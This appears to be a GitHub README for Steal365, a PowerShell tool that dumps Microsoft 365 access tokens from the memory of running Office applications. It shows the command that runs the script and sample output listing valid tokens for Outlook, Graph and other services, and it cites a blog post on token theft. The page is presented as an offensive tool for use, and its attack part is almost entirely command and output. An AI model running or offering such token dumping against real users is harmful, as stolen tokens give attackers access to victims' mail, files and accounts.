 # Steal365
Dumping tokens from Microsoft Office desktop applications’ memory

### Run
```
PS C:\Users\IEUser> .\Steal365.ps1
[!] WINWORD
[+] Dump ONENOTE ok
  \-- Looking for tokens...
    + Valid token: 15/09/1995 02:25:02
    + aud: https://outlook.office365.com/
    + Token: eyJ0eX[...]uE4w

[!] POWERPNT
[+] Dump OUTLOOK ok
  \-- Looking for tokens...
    + Valid token: 15/09/1995 02:26:41
    + aud: https://outlook.office365.com/
    + Token: eyJ0eX[...]nORg

[!] EXCEL
[+] Dump OneDrive ok
  \-- Looking for tokens...
    + Valid token: 15/09/1995 02:25:17
    + aud: 00000003-0000-0000-c000-000000000000
    + Token: eyJ0eX[...]I32n

    + Valid token: 15/09/1995 02:22:48
    + aud: ab9b8c07-8f02-4f72-87fa-80105867a763
    + Token: eyJ0eX[...]VOQg

    + Valid token: 15/09/1995 02:27:55
    + aud: https://clients.config.office.net/
    + Token: eyJ0eX[...]OzMA

    + Valid token: 15/09/1995 02:49:22
    + aud: https://wns.windows.com
    + Token: eyJ0eX[...]6-YA
```

### Inspired by
[Stealing Access Tokens From Office Desktop Applications](https://mrd0x.com/stealing-tokens-from-office-applications/)<br>
